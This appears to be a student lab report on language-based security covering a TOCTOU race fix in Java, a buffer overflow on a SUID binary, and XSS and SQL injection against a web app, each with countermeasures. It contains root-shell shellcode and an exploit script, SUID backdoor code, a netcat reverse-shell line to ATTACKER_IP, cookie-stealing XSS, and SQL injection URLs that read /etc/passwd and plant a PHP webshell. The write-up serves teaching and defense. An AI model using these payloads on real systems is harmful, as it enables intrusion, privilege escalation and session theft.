



# Language-based Security

## Lab 1 - TOCTOU

### Part 0 : About source code and definitions

All our code is located in the `src/` folder. It contains several elements :
- `ShoppingCart` class, where our main function is located.
- `backEnd/` folder, where classes that manage our pocket, our wallet and the store are located.
- a `Makefile`, that can automatically build our project or manage the wallet and pocket text files.
- `scripts/` folder, where we implemented some batch scripts to automate coherence checking, automatize products buying, etc.
- `run_candies.bat` and `run_car.bat` scripts, that you can run in order to check whether or not data races problems occur.
    
If you just want to compile and run the program, you can type the commands below in your shell, when you are in the `src` folder:

```bash
make
java ShoppingCart
```

You will next be asked to choose what product you want to buy.
To run the batch scripts `run_candies.bat` and `run_car.bat` (we will talk about them later in the report) you can simply type in the shell, once located in the `src/` folder:

```bash
run_candies.bat
run_car.bat 
```

In our report, we are going to use some concepts such as :
- process : any program that is executed on a computer. In this context, running `java ShoppingCart` will spawn a new process on our machine.
- thread : execution unit that is part of a process. A process can have multiple threads running at the same time and each one can have its own state (pending, running, ready, etc).
- thread-safety : capacity of several computing entities (threads or processes) to resist against concurrency during overlapping executions. Race conditions can affect data shared between several threads within a single processe (variables, etc) or can affect several independant processes (which try to edit files or OS register for example).


### Part 1 : Exploit your program

- Shared resources are the wallet `wallet.txt` and our pocket `pocket.txt`, that are shared between users that call our `ShoppingCart.java` file.
- The root of the problem is that our program verifies in a first step that we have enough money in our wallet, but only withdraws it in a second step. If two or more users are calling the function **at the same time**, it can happen that these multiple programs enter the first step simultaneously.
- To attack the system, you can run at the same time several instances of the program and when a data race error occurs, you will be able to add several items in your `pocket.txt` that you might **not have payed for**.
- If the configuration below happens during execution, a problem will occur and will cause troubles in the accuracy of the program. This error is highlighted using the `run_car.bat` and `run_candies.bat` scripts with the **unpatched** version of the code. These scripts are respectively buying 2 cars or 14 candies at the same time and check whether or not a data race error occurs.

   
```

                                PROCESS 1
                
--| Get Balance |-------------| Withdraw Money |---------------------->

-------------------| Get Balance |----------------| Withdraw Money|--->

                                PROCESS 2

```

- Our `run_car.bat` script fills our wallet with 30000$, empties our pocket and then spawns 2 processes that will try to buy a car. Once the operation is finished, it checks if data race errors occurred by counting the number of items that were bought.
- Our `run_candies.bat` script fills our wallet with 30000$, empties our pocket and then spawns 14 processes that will try to buy candies. Once the operation is finished, it checks if data race errors occurred by checking the money in our wallet.

- In order to compile and run this program (Windows), you can simply use your command prompt and run the program `run_car.bat` (or `run_candies.bat`) located in src folder. It will compile you program (you have to ensure that Java is installed and configured on your machine) and then it will launch automatically several instances of the program (2 or 14) in order to see if data races occur.


### Part 2 : Fix the API

- The `safeWithdraw` function is implemented in the `Wallet` class.
- The `Pocket` class also suffers from possible race conditions, since it contains a method that is able to write in a file. We have to ensure that this is done in a safe way.
- These protections are enough because `Pocket` & `Wallet` classes were the only ones that were allowed to perform any form of writing and since all other classes don't rely on data writes in order to run, we are sure that our program does not contain data races issues anymore.
- To fix this program, we used a lock to perform operations in parallel without incoherence between our wallet and pocket files. A FileLock class is used for each file to ensure that critical functions are not executed at the same time. `FileLock lock = file.getChannel().lock();` is a blocking call, meaning that each process will wait to obtain the lock to write or read the files. Other types of locks can be used in Java (ReentrantLock for examples), but since our problem is caused by several processes running at the same moment, a thread will not share its resources with another thread because it will be in another process. At the end, wallet and Pocket are the only parts that are shared among this program, so FileLock is enough.


The new withdraw function implemented in `Wallet` class, that avoids data races problems:
   
```java

public void safeWithdraw(int valueToWithdraw) throws Exception {
    FileLock lock = file.getChannel().lock();
    int balance = getBalance();
    if (balance >= valueToWithdraw) {
        this.setBalance(balance - valueToWithdraw);
        lock.release();
    } else {
        lock.release();
        throw new Exception("Not enough money in wallet");
        }
}

```

The `getBalance` function had to be rewritten since a data race error can occur if we don't use the FileLock class in this section. Normally we should not have to do this since our program just reads and doesn't perform any writing on the file, but on Windows, removing the lock often causes troubles. So we decided to keep it in order to preserve the program's integrity instead of the performances:

```java


public int getBalanceThreadSafe() throws IOException {
        FileLock lock = file.getChannel().lock();
        this.file.seek(0);
        String line = this.file.readLine();
        lock.release();
        return Integer.parseInt(line);

    }

```

Since the pocket file is also shared between processes, we also have to fix this part of the API. Here is the safe version implemented in `Pocket` class:

```java

public void safeAddProduct(String product) throws Exception {
    FileLock lock = file.getChannel().lock();
    System.out.println("You just bought a " + product);
    this.addProduct(product);
    lock.release();
}

```

We also have to bring some changes to our main function in order to replace unsafe methods by their patched versions functions:

```java

        public static void main(String[] args) throws Exception {
                Wallet wallet = new Wallet();
                Pocket pocket = new Pocket();
        
                System.out.println("Your current balance is: " + wallet.getBalanceThreadSafe() + " credits.");
                System.out.println(Store.asString());
        
                System.out.println("What do you want to buy? ");
                Scanner scan = new Scanner(System.in);
                String product = scan.nextLine();
        
        
                try {
                    wallet.safeWithdraw(Store.getProductPrice(product));
                    pocket.safeAddProduct(product);
                    System.out.println(String.format("Your new balance is: %d", wallet.getBalanceThreadSafe()));
                } catch (Exception e) {
                    System.out.println(e.getMessage());
                }
                wallet.close();
                pocket.close();
                System.exit(0);
        
        
            }

```


instead of:


```java

        public static void main(String[] args) throws Exception {
                Wallet wallet = new Wallet();
                Pocket pocket = new Pocket();
        
                System.out.println("Your current balance is: " + wallet.getBalance() + " credits.");
                System.out.println(Store.asString());
        
                System.out.println("What do you want to buy? ");
                Scanner scan = new Scanner(System.in);
                String product = scan.nextLine();
        
        
                int currentBalance = wallet.getBalance();
                // Check if the amount of credit is enough, if not stop the execution
                if (currentBalance >= Store.getProductPrice(product)) {
                    System.out.println("You just bought a " + product);
                    Thread.sleep(1000);
                    // Withdraw the price of the product from the wallet
                    wallet.setBalance(currentBalance - Store.getProductPrice(product));
                    // add the name of the product to the pocket file
                    pocket.addProduct(product);
                    // print the new balance.
                    System.out.println("New balance : " + wallet.getBalance());
                } else {
                    System.out.println("Not enough money in your wallet.. closing program !");
                    System.exit(0);
                }
                wallet.close();
                pocket.close();
            }

```


## Lab 2 - Buffer Overrun

### Part 1 : Gaining root access

#### How does it work ?

In order to gain root access to this machine, we are going to use the `addhostalias` executable file, which seems to be vulnerable to buffer overruns. In order to exploit this, we are going to go through several steps :
- Analyse the vulnerability in the code.
- Use gdb to analyse how the program behaves according to the arguments that we give.
- Find a way to exploit it. In our case, we will use Python which allows us to have our root shell more easily. Since it is a high-level language, we can focus on the content of our malicious code instead of how to generate it.

First of all, let's see the content of the `addhostalias` program. We have to run it by giving three arguments: IP address, host and alias. The program will load these values into a buffer, and store a new line into the hosts file, located in the /etc folder.

```c

#include <stdio.h>
#include <stdlib.h>
 
 
#define HOSTNAMELEN 256
#define IPADDR      1
#define HOSTNAME    2
#define ALIAS       3
 
#define HOSTFILE "/etc/hosts"
 
 
void add_alias(char *ip, char *hostname, char *alias) {
  char formatbuffer[256];
  FILE *file;
 
  sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias); // sprintf doesn't check if formatbuffer variable can be bound into 256 bytes, we are going to exploit this section
 
  file = fopen(HOSTFILE, "a");
  if (file == NULL) {
    perror("fopen");
    exit(EXIT_FAILURE);
  }
 
  fprintf(file, formatbuffer);
  if (fclose(file) != 0) {
    perror("close");
    exit(EXIT_FAILURE);
  }
}
 
 
int main(int argc, char *argv[]) {
  if (argc != 4) {
    printf("Usage: %s ipaddress hostname alias \n", argv[0]);
    exit(EXIT_FAILURE);
  }
 
  add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
  return(0);
}

```

Here, we are going to exploit the `sprintf()` function which, in our case, fills the buffer with these three arguments and a space - the \t character - between each string. The problem is that this function doesn't check if the size of the final string is inferior or equal to the maximum length of our variable (formatbuffer in the program above). In the end, every string can be put in this variable, even if we define a size of 256 bytes during the allocation.
With this behavior, we can combine this `sprintf()` function property with adequate parameters, in order to fill the machine memory with malicious code. This is what is called a buffer overflow, which is based on the memory managment of computers. 
To better understand what will happen next, let us have a brief explanation of how the stack works in this type of program. In order to maintain consistency during the program execution, the OS stores everything that is necessary for the program to work in memory. This means it can push data in a stack, but also store addresses which point to other memory locations (for example when a function call is performed). The schema below shows a simplified view of memory layout:

```
       0xffffffff

   4 bytes (32bits OS)
< --------------------->


 ----------------------
|   RETURN ADDRESS      | 
 ----------------------
|    BASE POINTER      |
 ---------------------- 
|                      |
|                      |
|                      |
|                      |
|                      |
|       BUFFER         |
|    (256 bytes)       |
|                      |
|                      |
|                      |
 ----------------------

       0x00000000

```

During the execution of a program, the OS uses variables or parameters which will be stored into the stack (that grows downwards) ; it also uses return addresses to know where to go in memory and continue the execution and also some pointers. The most famous ones are EBP, which is base pointer and ESP, which is stack pointer.

In reality, memory management is more complicated, since it relies on some registers that store some more addresses into other registers in order for the program to run correctly. Memory also contains a heap that can be exploited, but these types of exploit are less common.

The last important point is that the SUID bit is set, so the program is vulnerable. When a user runs this program, his EUID (effective user id) becomes the same as root. This is necessary to have the possibility to edit the /etc/hosts file, where root only has the right to write to. In this case, The SUID bit is mandatory in order for `addhostalias` to work properly.


#### How did we create our exploit ?

To create our malicious input in an efficient way, we used GDB to see if everything was fine in memory management during the program execution:

- `gdb --args addhostalias <param1> <param2> <param3> ` entering debug mode for our program.
- `(gdb) break fopen` places a break point to stop the program execution when `fopen` function is called. In our case it will stop just after the buffer has been written to memory.
- `(gdb) run` runs the program until it finishes or when a breakpoint is reached.
- `(gdb) x/100x $sp` displays 100 current words in our memory where the stack pointer is located. This allows us to analyse the current stack state once our buffer is written with our three arguments.

On the figure below you can see these different steps executed as an example, and also the result in memory:


We now have to create an input that fulfills these requirements:
- size of 264 bytes, to fill perfectly into the current stack size (256B), plus the base pointer (32bits, so 4B) and the return address (4B for the same reason).
- at the beginning of the buffer is a series of NOP instructions, because in a computer memory layout, things tend to move slightly and you cannot ensure that your malicious code will permanently be located in a fixed address. It will create a sort of slope, that will redirect into the malicious code (since NOP instructions just tell the program to continue the execution into the next address in memory).
- malicious code, in our case, that spawns a shell as root user. The SUID bit configured on `addhostalias` gives us the opportunity to execute the commands described in the shellcode with the necessary root permissions. These instructions allow us to launch a root shell after the execution of the program. If we didn't set the real user id and the real group id as the effective user id (root) during the execution of the program, we would lose our root permissions before entering the called shell and have access to a normal user's shell instead.
- return address that returns to our series of NOP instructions.

The layout of the exploit thus will be:

```

 ----------------------
|   RETURN ADDRESS     | <------- now redirects approximately to the end of the stack (in the NOP slide inserted inside the buffer)
 ----------------------
|    BASE POINTER      | <------- not important in our case, but it is now overwritten with NOPs
 ---------------------- 
|                      |
|       MALICIOUS      |
|         CODE         |
|                      |
|         ...          |
|         NOP          |
|         NOP          |
|         NOP          |
 ----------------------

```

At the end, the final python code is:

```python
# run a shell on local machine
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
             +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
             +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
             +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
             +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
             +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
             +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')


# NOP signal, tells the CPU to go to the next instruction
nop = '\x90'
nops = nop*181

# estimated area of the end of the stack
nop_adress = '\x10\xf9\xff\xbf'

# 181 (NOPs) + 75 (Shellcode) + 2 (separators between addhostalias arguments) + 2 (last 2 bytes for base pointer occupied by 2 NOPs)+ 4 (return address) = 264 bytes of data (instead of 256, so it will overwrite the base pointer and the return address)
print nops+shellcode,nop*2,nop_adress
```

The most important parts of the shellcode are the following:
- "\x31\xc0", sets real user id from effective user id. In other words, it means that after the execution, you will be permanently logged as root user (because your real user id becomes root) and not only during the program execution (using the SUID bit on the program rights). An example of C code doing this manipulation would be the code below:

```c

setuid(geteuid()); //takes current effective user ID (root because SUID bit is active) and updates our real user ID with this value

```
Links to setuid and geteuid functions man pages [here](http://man7.org/linux/man-pages/man2/setuid.2.html) and [here](http://manpagesfr.free.fr/man/man2/getuid.2.html)

- "\xb0\x47", sets real group id from effective user id. It also sets our real group id as root to get fully access to all the privileges of the root user (like files writable only by root group for example). The C functions are quite similar to the previously seen ones (setuid and geteuid). 
- "\x89\xc3", which copies the value to ebx, a well-known CPU register. In this shellcode, the value that is stored is a pointer to `/bin/sh` which will be executed as root because we own its user ID.


Let's run the program in GDB and see what happens:


We succeeded in putting our malicious code in memory and successfully overwritten the return address so that the program will point to the NOP slope.

Now we just have to run it, and we have a root shell !


### Part 2 : Create a Backdoor

Once we have access to a root shell, we need to create a backdoor in order to be able to log as root easily the next time we need to.
To do that, all we need is to create a c file called `backdoor.c`for example:

```c 
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```

Then we need to compile it with gcc: `gcc -o backdoor backdoor.c`.
Finally, we have to set the suid bit: `chmod u+s backdoor` and verify that group and others have the execute permission.

Now, when we execute`./backdoor` with the user dvader, we gain access to a root shell.

We could also use more hidden methods:
- add our ssh public key in the list of authorized keys, the root admin could eventually see that it appeared (more difficult if we edit the last modification timestamp using `touch -t YYYYMMDDhhmm <file>`).
- using a cron job that periodically run a reverse shell using netcat `nc -e /bin/bash <ATTACKER_IP> <PORT>`. Netcat is not installed on this machine so this exploit would be more suited for Debian or Ubuntu systems which are more common nowadays.
- using a rootkit, which is much more discrete when it comes to regaining access. Rootkit exploits can be harder to detect than previous explained methods.

### Part 3 : Countermeasures

#### Language

- Use secure library functions: 
The first thing that we could do to prevent such buffer overflow from happening is to use more secure functions to write into the buffer. 
The function `snprintf()` could be used here to replace `sprintf()` because its advantage is that you can specify, in the arguments, the maximum number of bytes to be written inside the buffer. In comparison, the `sprintf` function doesn't check the size of the input at all and stores everything, even if it is larger than the size of the buffer.
We could write: `snprintf(formatbuffer, 256, "%s\t%s\t%s\n", ip, hostname, alias);` and the content of the buffer would never go past 256 bytes, preventing a buffer overflow attack.


#### Run-time

- Canaries:
A canary is a local variable added on the stack during the prologue of the function which serves as an indication, in the epilogue, to see if a buffer overflow occured. This canary is placed between the buffer and the return address and if its initial value is altered during the execution of the function, the program will crash.
It is used to detect that a memory overwrite happened during run-time because if the return address has been modified, then this value placed between the buffer and the return address must also have been modified.
In our `add_alias` function, before the creation of the buffer, we could add:

```c
void add_alias(char *ip, char *hostname, char *alias) {
  long canary = canary_value;
  char formatbuffer[256];
  FILE *file;
```

and after the `sprintf()` function call, we can simply add:

```c
sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
if (canary != canary_value){
	exit(error_code);
}
```

Another layer of security to make it harder for the attacker to guess the canary's value and overwrite it with the same value could be to add randomly generated canaries at each execution of the program for exemple. 
We could also add a "\0" character in the middle of the canary value.
Nevertheless, usually this countermeasure is a feature offered by compilers which allows to automaticaly set a canary value. 
This feature prevents programmers from having to write more lines of code to implement a canary defense mechanism, like in the exemple above. On gcc, we can set the flag `-fstack-protector` when compiling the code.

- Use dynamic analysis tools:
We could possibly use some tools that try debugging the code with run-time checks like ValGrind, Purify, AddressSanitizer, etc.

- Use the libsafe library:
The libsafe library allows to intercept and monitor all function calls to unsafe functions that could potentially be used to execute buffer overflow attacks like `gets()` and `sprintf()` in a program.
At run-time, once a buffer has been initialized, it detects automatically an upper limit to the value's size that can be added inside the buffer and creates a substitute version of the function that executes the original function's purpose, but in a safe way (the buffer overflow is contained in the stack frame).

The only thing needed to use libsafe on our program is to install it and set the `LD_PRELOAD` environment variable to point to the libsafe library:

```
LD_PRELOAD=/lib/libsafe.so.2
export LD_PRELOAD
```

Then, without needing to add any special line of code to our program, it will be automatically checked by the libsafe library when we run it.

#### Operating system

- NX bit/DEP/WoX :
Used to prevent the shellcode from being executed by storing it in a memory location reserved to write data and not execute it (marks the stack as non-executable). 
For this to happen, the program counter must redirect to the text/code segment of the stack and not the data segment or above to prevent execution of malicious code.

To set the NX-bit in our program to make the stack non-executable, we can set the flag `-z noexecstack` while compiling with gcc.

- ASLR :
ASLR is used to randomise the memory locations of certain elements on the stack, system functions locations, shared library locations, etc. 
This makes it a lot harder for an attacker to guess the memory address to return to in order to execute his shellcode for exemple.

Normally, a recent kernel automatically randomize these memory layout addresses, but if it is not the case for our program, we can manually set the randomization with the command:
`# echo 1 > /proc/sys/kernel/randomize_va_space`
We could also echo 2 to randomize more addresses.


All these counter measures should normally prevent or at least make the vast majority of buffer overflow attacks harder to execute for the malicious individuals.


### Sources that helped us to gain root access on the machine

1. [Buffer Overflow Attack, Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo&t=589s)
2. [GDB Petit Tutoriel, Daniel Hirschkof](http://perso.ens-lyon.fr/daniel.hirschkoff/C_Caml/docs/doc_gdb.pdf)
3. [Le Débogueur GDB, Anne Canteaut](https://www.rocq.inria.fr/secret/Anne.Canteaut/COURS_C/gdb.html)

### Sources for the countermeasures' discussion

1. [Attacking the stack (continued), Erik Poll and Peter Schwabe](https://www.cs.ru.nl/E.Poll/hacking/slides/hic6.pdf)
2. [Manpages libsafe, splitbrain.org](https://man.cx/libsafe(8))
3. [Hackers Hut, Andries Brouwer](https://www.win.tue.nl/~aeb/linux/hh/protection.html)


## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comments section on the home page. Indeed, there was no filtering or encoding of any kind of HTML charaters or quotes.
This allowed us to inject some javascript code in the field to display a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator of the website checking the comments page.

#### Description of the attack

The command that we decided to insert in the "text" field to steal the administrator's cookie is:

```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('');</script>
```

When the administrator checks the comments page, the first source of the image will send his cookie (via the `document.cookie`) to our requestbin url where it can be easily retrieved.


The thing is, the victim will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror` attribute of the `` tag to prevent showing a broken image which could be suspicious.


If we wanted to be even more stealthy, we could just accomplish the same thing but without displaying anything to the admin:

```html

```

All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value set in the administrator's cookie.


Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:


To prevent this attack from happening, we should sanitize user's inputs in the comments' text field. 
We can add escaping/encoding functions in the back-end source code to prevent special HTML characters usage. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

##### Client-side

Disable javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly, so it can't be a solution on the long run.

Install Web browser extensions:
It is possible to install plugins like Firefox NoScript, among many others, to specify the websites that should be trusted by the browser to execute scripts.

##### Server-side

HttpOnly flag: 
One thing that could be done to prevent cookie stealing is to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is, we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding functions:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charaters that could be used to inject code in the input fields.


Use Content Security Policy (CSP):
A CSP could also be useful to prevent the execution of potential XSS scripts. By specifiying an HTTP `Content-Security-Policy` header in the responses from the web server, we can, for exemple, specify to the web browser of the client to only load content from specific sources.
If we specify `Content-Security-Policy: script-src 'self'; img-src *` in the HTTP header of the responses, we can indicate to the web browser to only load scripts from the same origin (domain) as the rest of the web page, but accept to load any image from any other source for exemple.
In a way, it is also a client-side countermeasure because the web browser needs to be CSP compatible for the rules to take effect and for it to execute only the scripts from an authorized origin.


Use Iframe protection mechanisms:
One possible type of attack that could be used by a malicious individual is to load the web page into an iframe HTML tag of his own evil website and try to steal informations from clients visiting it without them even being aware that they are not on the right website.
To prevent this possibility from happening, Javascript-based Frame busters could be implemented to block the display of the web page in case of Framing by another website. It is also possible to use the header `X-Frame-Options` in the HTTP responses to specify that a web page shouldn't be loaded inside an iframe tag of another website.
In this case, a warning message appears in the Framed loaded web page to warn the client.
For exemple, if we specify `X-Frame-Options: DENY` as value for the header, no website could be able to Frame the web page without warning the client.
The X-Frame-Options countermeasure is, as for the CSP countermeasure, a bit client-sided because the client's web browser needs to be X-Frame-Options compatible for it to work.

### Part 2: SQL Injection

#### Known Vulnerabilities

First of all, we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then, we found that the URL was not sanitized, meaning that some commands can be executed through the path. In this lab, we need to perfom SQL injections, meaning that we will execute SQL queries inside the URL.
To be able to inject SQL commands in the URL, we have to add an "union" keyword at the end of it and pursue with the rest of our custom query.
Then, the first step is to determine the number of columns that are returned by the first part of the query in order to not create an error. To do that, we have to do some kind of "bruteforce" by adding another "select" and increasing the number of queried fields until no error appears on the web page anymore:


Finally, after adding 4 columns, no error is displayed. This means that we guessed the correct number:


However, the id=0 seems to be the only one letting us inject SQL commands. We guess that it is because it doesn't correspond to any actual post on the comment section.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads the `/etc/passwd` file and displays its content into the update form, as seen in the image below:



In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server with the mysql user's rights, which has more privileges than the default www-data user.
Thus, it is possible to display sensitive files' content. For example, in this case, the file containing informations about users registered on the system. Before we would also have found passwords in this file, but modern UNIX systems now use the `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will create in our `css` folder, which has write access for everyone, a php file to launch a shell on the server. We cannot upload our file directly on the root of the project
since we don't have writing permissions. Directory trees can be explored with the help of various tools. An interesting one would be the python module `wfuzz` which allows to perform directory listings on web servers.

```bash
$pip install wfuzz
$wfuzz -w urls.txt http://localhost/FUZZ # the tool will replace the word FUZZ with every word in our dictionary 
```

With `url.txt`, a file containing common directory names for websites, we can enumerate the subdirectories on the web server.
We can easily find some dictionary lists on Github: example with this [fuzzdb project](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery/predictable-filepaths/filename-dirname-bruteforce)



We can then perform SQL injection on each directory we found. Once the script tries to inject the payload in the `css` folder, we can see that it appeared into our directory :


Our file contains php code that will fetch the "cmd" parameter in our url, and run it through a shell:

```php
<?php
    system($_GET['cmd']);
?>
```

Now that we have our php file on the server, we can execute code remotely:




Note that the webshell file belongs to mysql, but when we run the command `whoami` through the web application, it seems that we are logged in as www-data user, 
which is the standard user that is often reserved for remote users on web apps in Apache. It has few rights on the system but if we modify a little bit our previous 
URL that writes a php file, we could, for example, activate the SUID flag on the file. By setting our real user ID as the effective user ID, we could send commands 
using mysql user, which has advanced rights on the system. 

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning that instead of injecting values directly in the command, it uses inputs as parameters. Those are then formatted with only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers, if an error occurs, it is sometimes thrown back to the client's browser. This could allow a potential attacker to use this information disclosure (like tables structure for example) to break the system.
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, can also be done by an attacker. We have a case here by being able to read the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database but forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application where you can specify every action that are allowed on each table by creating prepared functions. You use them instead of querying directly your database. Any request which is not part of a procedure would be rejected because, in a standard usage, you would not need to do this action.

##### Operating System

- Change permissions on the server: In web servers, it is mostly recommended that directories' permissions should be 755 and 644 for the files. Permissions 777 are not recommended because they give too many rights. When we created the webshell, we used the writing rights that were allowed in the css folder. Those rights don't have a purpose during normal execution so, by removing this permission, we would ensure that users can't write in this folder.


### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
3. [Content Security Policy (CSP), MDN Web Docs Mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
4. [How to Prevent Framing Attacks, Hackmanit](https://www.hackmanit.de/en/blog-en/81-how-to-prevent-framing-attacks)
